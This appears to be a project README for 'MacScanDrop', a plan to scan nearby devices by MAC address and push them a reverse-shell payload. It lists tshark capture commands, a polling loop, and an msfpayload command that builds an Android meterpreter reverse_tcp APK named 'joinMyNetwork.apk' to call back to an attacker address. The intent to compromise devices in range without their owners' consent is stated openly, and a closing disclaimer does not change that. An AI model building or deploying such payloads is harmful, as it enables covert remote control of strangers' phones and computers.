 MacScanDrop

Idea

The idea here is to scan for devices in range of my own network. Sending out a request to all devices in range to join. In return I want to provide them with a reverse_tcp payload.

The one unique identifier would be MAC (media access control) address. Which we will SCAN for, and DROP a payload. Lets see how this pans out.

Problem

The currently known problems associated with this idea are;
    -Having a script running for a period of time
        This could be in a while loop for say 300 seconds
    -To prevent the req beign sent out again to the same device, save the MAC it into a file or db
        .txt file or a sql db, looking for the most efficient
    -heterogeneity issues
        If it is an android device wanting to connect, would have to wrap the payload into a .apk
    -Which CLI tools to use to scan the LAN
        wireshark, tshark, arp-scan, airmon-ng & airodump-ng


Current solution, more like ideas

while true ; do ./MacScanDrop.<extension> ; sleep 300 ; done

tshark -D (Print a list of the interfaces on which TShark can capture)
    wlan0 is on interface 2
tshark -i 2 -a [autostop] duration:300 -w [write] tshark-scan-collection.pcap

msfpayload android/meterpreter/reverse_tcp LHOST=192.168.1.120 LPORT=4444 R > joinMyNetwork.apk






This project is for learning and knowledge share to which I do no advocate or take upon any responsibility for illegal actions and/or damage performed or caused by individuals who use this information for purposes which it is not intended to be used.
